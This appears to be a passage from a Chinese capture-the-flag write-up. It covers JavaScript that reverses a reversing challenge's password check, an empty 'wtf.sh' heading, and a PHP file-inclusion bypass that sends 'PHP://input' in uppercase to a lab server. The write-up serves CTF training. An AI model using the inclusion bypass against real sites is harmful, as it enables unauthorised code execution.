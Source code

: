 用js写成

```js
function findReqR6(){
  var pw = stoh("XYzaSAAX_PBssisodjsal_sSUVWZYYYb"); //We found this string above, from get_pw();
  var required = new Array();
  for(var i = 0 ; i < pw.length; i ++ ){
      var a = pw[i];
      a = a - 5;            // We do this to find out what the original input needs to be.
      if(i & 1 == 1){
        a = a + 3;          // Because the test adds 5, and might sub 2 in some cases
      }                     // according to the assembly above.
      required[i] = a;
  }
  return required;
}

function reverseEnc(argarray){
  var test = 0;
  var output = new Array();
  
  for(var i = 0 ; i < argarray.length ; i++){
    var x = argarray[i];
    if(test == 1){
      var sub = (i & 3);
      x = x - sub;      //Once again we find this by reading through the assembly.
    }
    x = x - 6;
    test = (argarray[i] & 1);
    output[i] = x;
  }
  return output;
}
```

跑一下即得到flag

```
htos(reverseEnc(findReqR6()))
"SWu_N?<VZN=qngnm_hn_g]nQPTRXTWT`"
```

## 0x12 wtf.sh-150



## 0x13 Web_php_include

“php://”被吃了

但是strstr()大小写敏感 协议大小写不敏感

直接PHP://input 一下

```
GET /?page=PHP://input HTTP/1.1
Host: 111.198.29.45:57474
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Length: 44
```